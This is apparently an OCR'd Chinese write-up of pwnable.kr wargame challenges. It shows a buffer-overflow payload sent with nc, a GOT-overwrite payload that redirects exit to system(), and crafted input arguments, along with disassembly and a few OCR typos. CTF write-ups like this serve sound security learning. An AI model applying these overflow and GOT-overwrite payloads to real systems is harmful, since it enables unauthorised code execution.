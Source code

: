 #bof
```
import struct
padding = 'A'*52 #这里不是算的
key_addr = struct.pack("I", 0xcafebabe)
print padding + key_addr
```
重点是确定填充的字节，由func中
0x56555649 <+29>:   lea    eax,[ebp-0x2c]
2C 是 44 填充44个A 再加上addr正好覆盖ebp这个地址，而
0x56555654 <+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
所以只有再加8就正好覆盖了比较的地址，即key的位置。
知道这个之后就可以利用python加管道进行pwn
(python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

#flag
IDA打开之后就看到upx的字符，猜测是upx壳，linux下看了一下，apt安装下upx然后就可以解壳了

#passcode
这题完全不知道怎么做，然后看国外大牛的wp。理解了半天，没懂。
然后自己gdb调试，，忽然想起来，在调用welcome之后和调用login之后，
esp的地址一样，这样因为函数开始的时候都有mov    ebp,esp。
所以ebp(ebp在整个函数初始化指针之后是不会再改变的)就是可以认为是一样的，然后welcome调用结束后的数据并没有清楚，而是留在栈上，栈调用welcome结束后仅仅是把指针调整了，并没有清除数据，所以这里就是可以利用的地方。
然后这个还有个条件，就是scanf("%d", passcode1);IDA逆向出来是__isoc99_scanf("%d");这样程序就会直接读取对应栈上的值
0x70-0x10 = 0x60 = 96。只要有96个就能覆盖passcode1的值
```
welcome:
0x0804862f <+38>:   lea    edx,[ebp-0x70]
0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:    mov    DWORD PTR [esp],eax
0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
login:
0x0804857c <+24>:   mov    edx,DWORD PTR [ebp-0x10]
```
之后就是直接的plt利用了，不过这个也是理解了不少时间，实际上就是call exit的时候，实际上是先执行jmp _exit (_exit就是实际上exit的地址，而采用全局偏移表的方式存储，只要把这个地方改掉就行了。)
```
0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
0x080485de <+122>:   call   0x848450 <puts@plt>
0x080485e3 <+127>:   mov    DW0ORD PTR [esp],0x80487af
0x080485ea <+134>:   call   0x8048460 <system@plt>
```
system("")对应的地址：0x080485d7 = 134514135
0x080485e3
偏移表中exit对应的地址804a018
于是就可以'A'*96 + '\x18\xa0\x04\x08' + '134514135\n'

#random
开始看的rand没有思路，然而，，，如此简单。
rand需要先srand初始化化下时间种子，否则rand的返回值一直固定。然后利用异或的性质，ok

#input
```
./input `python -c "print 'A '*47 + '\x00' + '\x20\x0a\x0d'"`
```